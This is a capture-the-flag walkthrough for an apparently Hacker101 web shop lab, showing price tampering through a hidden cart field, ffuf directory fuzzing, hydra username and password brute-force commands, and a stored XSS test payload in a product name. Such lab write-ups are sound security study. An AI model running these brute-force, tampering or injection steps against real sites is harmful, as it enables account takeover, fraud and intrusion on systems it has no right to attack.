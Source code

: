 FLAG0
In the cart there seems to be a hidden input box which has info on the items and prices.
![Alt text](images/image.png)
There the value can be changed to 0.00 and after the checkout there is the flag.

FLAG1
"There must be a way to administer the app"
With some fuffing found page /login.
```console
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u https://3942c8cdfd9957f6715efde018b7c759.ctf.hacker101.com/FUZZ -mc 200
```

The page tells you if the username is wrong or if it is the password.
This shouldn't happen because now we can bruteforce the username and then the password.
```console
┌──(kali㉿kali)-[~]
└─$ hydra -L /usr/share/seclists/Usernames/Names/names.txt -p "abc" 3942c8cdfd9957f6715efde018b7c759.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username" -t 32 -S
```
And after some waiting we got the username
![Alt text](images/image2.png)
Note! The password isn't abc, it's just a placeholder for the time being. Hydra checks whether or not the response contains "Invalid username" so when the correct username is found, it thinks that the password is also correct.

Now to the password.
```console
┌──(kali㉿kali)-[~]
└─$ hydra -l "trudi" -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 3942c8cdfd9957f6715efde018b7c759.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password" -t 32 -S
```
Note! In a more thorough brute you would want to use way bigger list like rockyou or something like that but with my current setup it would take forever.
![Alt text](images/image3.png)
There we go!
After logging in, there's the flag.

FLAG2
After logging in as admin we can edit the products.
First I tried getting some sort of sqli but no luck.
Good thing the product name seems to be vulnerable to xss.
Adding ```<script>alert(1)</script>``` to the title works and back at the homepage an alert pops up.
After adding the trojan cat to cart and going to /cart, there's the final flag.